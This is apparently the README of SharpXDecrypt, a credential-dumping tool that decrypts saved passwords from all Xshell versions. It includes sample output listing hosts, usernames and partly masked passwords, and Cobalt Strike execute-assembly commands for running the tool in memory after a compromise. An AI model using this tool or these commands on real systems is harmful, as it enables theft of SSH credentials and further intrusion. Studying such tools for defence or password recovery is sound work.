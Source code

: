 # SharpXDecrypt

## 声明

本程序仅供个人恢复密码使用，勿作非法用途，请在下载后24小时内删除！如果代码中存在侵权行为，请联系我们删除。



## 简介

Xshell全版本凭证一键导出工具，针对Xshell全版本在本地保存的密码进行解密，包括最新的7系列版本！



## 使用方法

#### cmd.exe 自动寻找session路径

```
C:\Users\asus\Desktop\DEV\SharpXDecrypt\bin\Debug> .\SharpXDecrypt.exe

Xshell全版本凭证一键导出工具!(支持最新Xshell 7系列版本!)
Author: 0pen1
Github: https://github.com/JDArmy
[!] WARNING: For learning purposes only,please delete it within 24 hours after downloading!

[*] Start GetUserPath....
  UserPath: E:\NetSarang Computer\xshell6
  UserPath: C:\Users\asus\Documents\NetSarang Computer\7
[*] Get UserPath Success !

[*] Start GetUserSID....
  Username: asus
  userSID: S-1-5-21-736521517-423******97-1340300005-1001
[*] GetUserSID Success !

  XSHPath: E:\NetSarang Computer\xshell6\Xshell\Sessions\192.168.1.110.xsh
  Host: 192.168.1.110
  UserName: wwwuser
  Password: www*******Aqx
  Version: 6.0

  XSHPath: C:\Users\asus\Documents\NetSarang Computer\7\Xshell\Sessions\192.168.1.110.xsh
  Host: 192.168.1.110
  UserName: wwwuser
  Password: ww********Aqx
  Version: 7.1

  XSHPath: C:\Users\asus\Documents\NetSarang Computer\7\Xshell\Sessions\Tokyo.xsh
  Host: 198.13.51.134
  UserName: root
  Password: W8*********PN__%
  Version: 7.1
```

#### cmd.exe 指定session路径

```
C:\Users\asus\Desktop\DEV\SharpXDecrypt\bin\Release> .\SharpXDecrypt.exe "C:\Users\asus\Documents\NetSarang Computer\7\Xshell\Sessions"

Xshell全版本凭证一键导出工具!(支持Xshell 7.0+版本)
Author: 0pen1
Github: https://github.com/JDArmy
[!] WARNING: For learning purposes only,please delete it within 24 hours after downloading!

[*] Start GetUserSID....
  Username: asus
  userSID: S-1-5-21-736521517-4232353097-1340300005-1001
[*] GetUserSID Success !

  XSHPath: C:\Users\asus\Documents\NetSarang Computer\7\Xshell\Sessions\192.168.1.110.xsh
  Host: 192.168.1.110
  UserName: wwwuser
  Password: www*******qx
  Version: 7.1

  XSHPath: C:\Users\asus\Documents\NetSarang Computer\7\Xshell\Sessions\新建会话.xsh
  Host: 127.0.0.1
  UserName: root
  Password: 78******6
  Version: 7.1

[*] read done!
```


#### Cobalt Strike

```
execute-assembly /path/to/SharpXDecrypt.exe
execute-assembly /path/to/SharpXDecrypt.exe  "C:\Users\asus\Documents\NetSarang Computer\7\Xshell\Sessions"
```



## 更新日志 

- v0.1.0, 2022-02-22, 创建
- v0.1.1, 2022-02-23, 修复中文用户名解密失败问题
- v0.1.2, 2022-02-23, 修复Xshell5执行报错问题，增加执行session路径功能



## 致谢

暂无



## 参考

https://github.com/HyperSine/how-does-Xmanager-encrypt-password

https://github.com/uknowsec/SharpDecryptPwd

